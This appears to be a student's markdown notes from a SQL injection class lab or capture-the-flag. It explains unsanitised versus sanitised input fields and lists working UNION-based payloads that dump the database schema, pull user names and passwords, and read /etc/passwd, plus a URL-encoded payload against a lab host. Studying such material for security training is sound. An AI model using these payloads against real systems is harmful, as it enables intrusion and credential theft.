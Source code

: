 ### Unsanitized VS Sanitized Field 

    **Unsanitized:** input fields can be found using a Single Quote '
    - Will return extraneous information

    - ' closes a variable to allow for additional statements/clauses

    - May show no errors or generic error (harder Injection)

    **Sanitized:** input fields are checked for items that might harm the database (Items are removed, escaped, or turned into a single string)

    **Validation:** checks inputs to ensure it meets a criteria (String doesn’t contain ')

### Server-Side Query Processing
User enters JohnDoe243 in the name field and his password in the pass field.

Server-side Query passed would be: 

Before Input:
`SELECT id FROM users WHERE name='$name' AND pass='$pass';`

After Input:
`SELECT id FROM users WHERE name='JohnDoe243' AND pass='paas1234';`




## SCHEMA
Table_shema = Database names
Table_name = names of tables inside of databases
column_name = names of colums inside of tables 

information_schema.columns 

command we did in class to dump entire database -> `Audi' UNION SELECT table_schema,2,table_name,column_name,5 from information_schema.columns#` 

To see manufacturer info -> `Audi' UNION SELECT id,2,name,4,pass from session.user#`

To see user version -> `Audi' UNION SELECT @@version,1,2,3,4 from session.user#`

to see pwd -> `Audi' UNION SELECT load_file("/etc/passwd"),2,3,4,5 from session.user#`

To see database from this website (restricts search, may be helpful or not) -> `Audi' UNION SELECT table_schema,2,table_name,column_name,5 from information_schema.columns where table_schema=database()#`

****
***
## Flags

see whole db --> `http://10.100.28.48/cases/productsCategory.php?category=1%20UNION%20SELECT%20table_schema,table_name,column_name%20from%20information_schema.columns%20#`
1. DNLA Category

        On the DNLA site identify the flag using the Categories page. To answer input the characters inside the flag.
